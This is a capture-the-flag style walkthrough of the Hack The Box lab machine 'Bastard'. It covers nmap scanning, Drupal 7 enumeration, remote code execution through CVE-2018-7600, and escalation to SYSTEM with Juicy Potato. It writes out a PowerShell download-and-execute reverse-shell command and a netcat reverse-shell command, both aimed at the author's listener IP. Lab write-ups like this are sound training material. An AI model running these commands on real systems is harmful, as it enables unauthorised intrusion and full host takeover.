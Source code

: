# Recon

I do my initial scan to see which ports are open.
## nmap
```
# Nmap 7.92 scan initiated Wed Aug 10 17:03:18 2022 as: nmap -p- -oA first/scan --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv bastard.htb
Nmap scan report for bastard.htb (10.129.83.90)
Host is up, received echo-reply ttl 127 (0.050s latency).
Scanned at 2022-08-10 17:03:18 CDT for 39s
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 127
135/tcp   open  msrpc   syn-ack ttl 127
49154/tcp open  unknown syn-ack ttl 127

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Aug 10 17:03:57 2022 -- 1 IP address (1 host up) scanned in 39.72 seconds
```

Then run `nmap` again with default scripts (`-sC`) and service discovery (`-sV`) on the ports that were found from the first scan.

```
# Nmap 7.92 scan initiated Wed Aug 10 17:04:25 2022 as: nmap -oA main/scan -sV -sC --min-rate 5000 --max-retries 3 --stylesheet https://raw.githubusercontent.com/honze-net/nmap-bootstrap-xsl/master/nmap-bootstrap.xsl -vv -p 80,135,49154 bastard.htb
Nmap scan report for bastard.htb (10.129.83.90)
Host is up, received echo-reply ttl 127 (0.051s latency).
Scanned at 2022-08-10 17:04:26 CDT for 64s

PORT      STATE SERVICE REASON          VERSION
80/tcp    open  http    syn-ack ttl 127 Microsoft IIS httpd 7.5
| http-robots.txt: 36 disallowed entries 
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
| /LICENSE.txt /MAINTAINERS.txt /update.php /UPGRADE.txt /xmlrpc.php 
| /admin/ /comment/reply/ /filter/tips/ /node/add/ /search/ 
| /user/register/ /user/password/ /user/login/ /user/logout/ /?q=admin/ 
| /?q=comment/reply/ /?q=filter/tips/ /?q=node/add/ /?q=search/ 
|_/?q=user/password/ /?q=user/register/ /?q=user/login/ /?q=user/logout/
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: Welcome to 10.10.10.9 | 10.10.10.9
|_http-generator: Drupal 7 (http://drupal.org)
|_http-favicon: Unknown favicon MD5: CF2445DCB53A031C02F9B57E2199BC03
|_http-server-header: Microsoft-IIS/7.5
135/tcp   open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
49154/tcp open  msrpc   syn-ack ttl 127 Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Aug 10 17:05:30 2022 -- 1 IP address (1 host up) scanned in 65.07 seconds
```

I also ran a UDP scan, vuln scan and fuzzed for subdomains but didn't get much back, so it looks like we are working with Microsoft IIS httpd 7.5 on port 80, and Microsoft Windows RPC on port 135.

# Enumeration

## Website

Nikto and Feroxbuster didn't return anything too helpful, and after checking some of the disallowed entries in robots.txt, we see that authentication is required so nothing helpful there either, although one of the entries is `/CHANGELOG.txt` which reveals the current Drupal version:

![d47175255085d15357dbf404225cec46.png](../_resources/d47175255085d15357dbf404225cec46.png)

I went straight to searchsploit and was welcomed with a list of possible exploits.

![346af962989c291e398294b55976d7ea.png](../_resources/346af962989c291e398294b55976d7ea.png)

'Drupalgeddeon2' stood out to me but after some repeated failures, I thought that maybe I should enumerate Drupal more. I ended up using Droopescan which ended up taking almost an entire hour to run... And even then the output wasn't all that helpful. 
Droopescan: https://github.com/SamJoan/droopescan

![7c0f2536ba3ab2ced093544d972507bd.png](../_resources/7c0f2536ba3ab2ced093544d972507bd.png)

But this is a very old version of Drupal... There has to be some sort of working exploit because there just isn't really anything left to enumerate, right?

This time I go to Google and eventually stumble across this Github repo:
https://github.com/a2u/CVE-2018-7600

I test command execution with `whoami` and confirm it works! 🥳

![014db872b8a89d17b5cb386788218ad9.png](../_resources/014db872b8a89d17b5cb386788218ad9.png)

So I set up a reverse shell and append `Invoke-PowerShellTCP -Reverse -IPAddress 10.10.14.125 -Port 1337` to the end of the file, taken from this repo:
https://github.com/samratashok/nishang/tree/master/Shells

![f53d6db33e210fba5a58906181b84cc8.png](../_resources/f53d6db33e210fba5a58906181b84cc8.png)

And then download and execute this file with my python http server up while using the following command...

`python3 CVE-2018-7600/drupa7-CVE-2018-7600.py  -c "C:\Windows\SysNative\WindowsPowerShell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.125:7331/Invoke-PowerShellTcp.ps1')" http://bastard.htb`

![2f7df456395abb154609f10c16a50549.png](../_resources/2f7df456395abb154609f10c16a50549.png)

![31805d32ebf03df96155480f9c965f9d.png](../_resources/31805d32ebf03df96155480f9c965f9d.png)

We get a shell back as an IIS service account for Drupal with `SeImpersonatePrivilege` enabled and from previous boxes I know that Juicy Potato is a good candidate for privilege escalation when we get a shell back as a service account like this.

![SeImpersonatePrivilege.png](../_resources/SeImpersonatePrivilege.png)

So to try and attempt privilege escalation this way, I will need to drop Netcat on the box, along with Juicy Potato like so:

Juicy Potato: https://github.com/ohpe/juicy-potato
Netcat (I use the 64 bit version): https://github.com/int0x33/nc.exe/

![e9d3bd8a4f31521d59562ef8750a8d4c.png](../_resources/e9d3bd8a4f31521d59562ef8750a8d4c.png)

![91768d58967e0e3e57c7712bce07d315.png](../_resources/91768d58967e0e3e57c7712bce07d315.png)

We now have the amunition needed to fire our weapon...

![pesc.png](../_resources/pesc.png)

I will use the following Juicy Potato command to achieve privilege escalation to SYSTEM.

`.\jp.exe -l 1234 -p "C:\Windows\System32\cmd.exe" -a "/c c:\inetpub\drupal-7.54\nc64.exe -e cmd.exe 10.10.14.125 9999" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`

Information about the flags that were used can be found from JP documentation, although I will briefly explain:

`-l 1234`: Use arbitrary DCOM port 1234.

`-p "C:\Windows\System32\cmd.exe"`: Tell JP to use `cmd.exe` as the main program for this.

`-a "/c c:\inetpub\drupal-7.54\nc64.exe -e cmd.exe 10.10.14.125 9999" -t * -c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`: This is the command that should be passed to `-p` which in our case is `cmd.exe`. To be specific, we are telling `cmd.exe` to execute `nc64.exe` with elevated privileges and execute our reverse shell which we will catch on a new netcat instance listening on port 9999.

`-t *` try both `createprocess` calls (`<t> CreateProcessWithTokenW, <u> CreateProcessAsUser)`

`-c "{e60687f7-01a1-40aa-86ac-db1cbf673334}"`: This is the CLSID I found from JP's documentation here (Note: it took a few tries to find a CLSID that worked):
https://github.com/ohpe/juicy-potato/blob/master/CLSID/README.md

![b437f6ed7f154d7d5ada1aeb98edec1f.png](../_resources/b437f6ed7f154d7d5ada1aeb98edec1f.png)

And there we have it! We are now system!

![b237c8d0df11e5021181e271f0de9ffb.png](../_resources/b237c8d0df11e5021181e271f0de9ffb.png)

Time to collect our loot and move on to the next box! :)

![loot.png](../_resources/loot.png)


